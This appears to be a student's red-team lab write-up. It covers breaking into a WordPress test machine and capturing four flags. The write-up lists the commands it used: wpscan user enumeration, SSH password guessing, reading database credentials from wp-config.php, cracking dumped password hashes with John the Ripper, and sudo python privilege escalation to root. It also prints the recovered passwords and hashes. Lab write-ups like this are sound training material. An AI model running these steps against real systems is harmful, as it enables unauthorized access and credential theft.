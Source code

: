 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap --script nmap-vulners -sV 192.168.1.110
```         
 ![](Nmap_Scan_1.png)
 ![](Nmap_Scan_2.png)
 ![](Nmap_Scan_3.png)
 ![](Nmap_Scan_4.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - OpenSSH version 6.7p1
  - Apache httpd 2.4.10

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - Wordpress database password stored in plaintext
  - User account able to run python commands with sudo allowing for privilege  escalation


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`:Flag1{b9bbcb33ellb80be759c4e844862482d}
    - **Exploit Used**
      - I did a WPscan and enumerated the users, saw the user Michael and was able to get an SSH session after a few password attempts. Once I had a shell I started with by using the find command to look for flag1.txt, this came up empty. I then did the same command for flag2.txt and saw it was located in /var/www. At first I thought flag1 might be in the previous directory but there were no files, only more directories. So I went inside of the html directory located in the same folder as flag2.txt and saw a bunch of files. I started grepping through the files and was able to find flag1 in service.html
      -        wpscan --url http://192.168.1.110.com --enumerate vp,u
               ssh michael@192.168.1.110
               1st password attempted: leahcim
               2nd password attempted: password
               3rd password attempted: michael
               find / -iname flag1.txt
               find / -iname flag2.txt
               cd /var/www
               cd ..
               cd /var/www/html
               grep flag about.html
               grep flag contact.php
               grep flag elements.html
               grep flag index.html
               grep flag service.html
  ![](Flag_1.png)

  - `flag2.txt`:Flag2{fc3fd58dcdad9ab23faca6e9a3e581c}
    - **Exploit Used**
      - I again used a WPscan to find the user Michael, guessed his password for an SSH session, and used the find command to look for flag2.txt. It was located in /var/www 
      - find / -iname flag2.txt
      
      ![](Find_Flag_2.png)
      ![](Cat_Flag_2.png)

 - `flag3.txt`: Flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - After locating the wp-config.php file within /var/www/html/wordpress I was able to discover the database username and password. These were listed as root and R@v3nSecurity respectively. and the host name was localhost
      ![](DB_Creds.png)
      I then used mysql to get into the DB and started looking for flag3. I first looked for the databases available, saw one titled wordpress so went into it. Then I pulled up the tables and started looking through them all from the top down. Eventually I found flag3 inside of wp_posts
      ![](Flag_3.png)  
      - cd /var/www/html/wordpress
               nano wp-config.php
               mysql -u root -p'R@v3nSecurity' -h localhost
               show databases;
               use wordpress;
               show tables;
               select * from wp_commentmeta;
               select * from wp_comments;
               select * from wp_links;
               select * from wp_options;
               select * from wp_postmeta;
               select * from wp_posts;

  - `flag4.txt`:Flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**
      - Since I was inside of the SQL DB I went to the wp_users table to find the password hashes for the user accounts. I copied the hashes and echoed them into a new file I called finalprojhashes.txt. I then ran John the ripper agaisnt the file and was able to find Stevens password. I then used this combo to SSH in as Steven. Once I had a shell as the Steven user I checked the sudo privileges of Steven and saw that he could run the python command as sudo. I then spent some time on google looking for ways to use python with sudo to escalate to root. I eventually found the command "python -c 'import pty;pty.spawn("/bin/bash")" which was listed as a typical PTY upgrade using python. Once I ran this command I was able to get root access, then I ran a find command to look for flag4. I found it in /root. A quick cat of the file and I was done. 
      -        select * from wp_users;
               copy Micheal's hash and then: echo 'Michael:$P$BjRvZQ.VQcGZlDeiKToCQd.cPw5XCe0' >> finalprojhashes.txt
               copy Steven's hash and then: echo 'Steven:$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/' >> finalprojhashes.txt
               john finalprojhashes.txt
               ssh steven@192.168.1.110
               password: pink84
               sudo -l
               sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
               find / -iname flag4.txt
               cat /root/flag4.txt


    ![](Echo_Hashes_And_John.png)
    ![](SSH_As_Steven.png)
    ![](Flag4.png)